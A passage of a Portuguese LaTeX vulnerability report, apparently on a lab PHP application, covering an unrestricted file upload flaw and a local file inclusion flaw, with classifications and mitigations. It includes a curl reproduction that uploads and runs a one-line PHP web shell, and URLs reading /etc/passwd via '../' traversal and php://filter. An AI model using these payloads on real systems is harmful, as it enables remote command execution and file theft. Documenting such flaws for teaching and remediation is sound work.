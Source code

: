   \textbf{Descrição.} \texttt{anexo.php} grava uploads em \texttt{site/anexos/} preservando o nome
  original, sem validação de tipo ou extensão. O Apache interpreta arquivos \texttt{.php} nesse
  diretório.
  
  \textbf{Classificação.} OWASP Top 10:2021 --- A04:2021 \emph{Insecure Design} e A05:2021
  \emph{Security Misconfiguration} \cite{owasp}; CWE-434 \emph{Unrestricted Upload of
  File with Dangerous Type} \cite{cwe}.
  
  \textbf{Reprodução (terminal).}
  \begin{lstlisting}
  echo '<?php echo shell_exec($_GET["c"]); ?>' > /tmp/cmd.php
  jar=$(mktemp)
  curl -s -c "$jar" -b "$jar" -o /dev/null \
    -d 'email=ivan@avisos.br&senha=aviso123' \
    http://localhost:8080/login.php
  curl -s -c "$jar" -b "$jar" -F 'arquivo=@/tmp/cmd.php' \
    http://localhost:8080/anexo.php
  curl -s 'http://localhost:8080/anexos/cmd.php?c=whoami'
  rm -f "$jar" /tmp/cmd.php
  \end{lstlisting}
  
  \textbf{Impacto.} \textbf{Persistência}: o atacante mantém um ponto de execução remota reutilizável
  (backdoor em PHP), com efeito semelhante à injeção de comando, porém mais estável para reentrada.
  
  \textbf{Mitigação hipotética.} Armazenar uploads fora do \texttt{DocumentRoot}; servir apenas como
  download; renomear arquivos; validar MIME e extensão; impedir interpretação PHP na pasta de uploads.
  
  \subsection{Inclusão de arquivo local (LFI)}
  
  \textbf{Descrição.} \texttt{modelo.php} inclui arquivos a partir de
  \texttt{site/modelos/ . \$modelo}, permitindo sequências \texttt{../} e wrappers \texttt{php://}.
  
  \textbf{Classificação.} OWASP Top 10:2021 --- A03:2021 \emph{Injection} \cite{owasp};
  CWE-22 \emph{Path Traversal} e CWE-829 \emph{Inclusion of Functionality from Untrusted Control
  Sphere} \cite{cwe}.
  
  \textbf{Exemplos de URL.}
  \begin{itemize}
      \item \url{http://localhost:8080/modelo.php?modelo=../../../../etc/passwd}
      \item \url{http://localhost:8080/modelo.php?modelo=php://filter/convert.base64-encode/resource=/etc/passwd}
  \end{itemize}
  
